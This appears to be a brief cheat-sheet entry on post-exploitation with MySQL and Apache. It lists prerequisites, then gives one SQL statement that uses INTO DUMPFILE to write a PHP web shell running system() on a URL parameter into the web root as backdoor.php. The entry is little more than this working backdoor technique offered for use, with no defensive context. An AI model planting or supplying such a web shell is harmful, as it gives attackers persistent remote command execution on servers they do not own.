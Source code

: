 ## Mysql + Apache
* requires already control over mysql cmd
* requires access of the _backdoor.php_ over browser
* `SELECT '<?php echo system($_GET["cmd"]); ?>' into DUMPFILE '/var/www/html/webtemp/backdoor.php';`
